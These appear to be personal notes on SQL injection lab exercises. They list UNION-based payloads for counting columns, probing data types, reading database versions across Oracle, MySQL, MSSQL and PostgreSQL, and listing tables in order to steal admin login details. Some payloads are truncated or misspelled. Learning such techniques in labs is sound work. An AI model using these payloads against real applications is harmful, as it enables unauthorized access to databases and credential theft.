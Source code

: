 ANALYSIS
	#1 determine number of column in the table
	'order by 2--'
	#2 determine data type of the table
	' UNION SELECT 'a','a' FRom DUAL--
	(since its an oracle database we have to use a dummy table provided by default called dual)
	#3 output the database version 
		 for oracle database select banner from v$version
		 ' union select banner, null from v$version-- 



LAB#9 EXAMINING MYSQL AND MICROSOFT DATABASE
--

GOAL OUTPUT DATABASE TYPE AND VERSION

ANALYSIS
DETERMINE NUMBER OF COLUMNS IN THE DATABASE 
 'UNION SELECT NULL, NULL --
' ' order by 2--

DEtermine data type
	'union select 'a', 'a'--

Ouptput the version
' union select null, version


LAB#10 LISTING DATABASE CONTENT ON NON ORACLE DATABASE
--
SQLI PRODUCT FILTER
END-GOAL RETRIEVE TABLE NAMES, RETRIEVE LOGIN DETAILS IN IT AND LOGIN AS ADMINISTRATOR

USING UNION BASED SQL

ANALYSIS

#1 FINDING NUMBER OF COLUMN IN THE TABLE 
' ORDER BY 2-- '

#2 FINDING DATA TYPE
'UNION SELECT NULL, 'a' --

#3 output database version
 since its non-oracle it should either be postgresql, microsoft sql or mysql
 microsoftsql and mysql @@version
	    ' union select null, @@version --
 postgresql version()
	   ' union select null, version() --
		   PostgreSQL 12.15 (Ubuntu 12.15-0ubuntu0.20.04.1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.4.0-1ubuntu1~20.04.1) 9.4.0, 64-bit
		   	   
#4 OUTPUT LIST OF TABLES IN THE DATABASE 
	' UNION SELECT table_name, NULL FROM information_schema.tables --
	 users_kcbtjc
	 
#5 output column name from users_kcbtjc
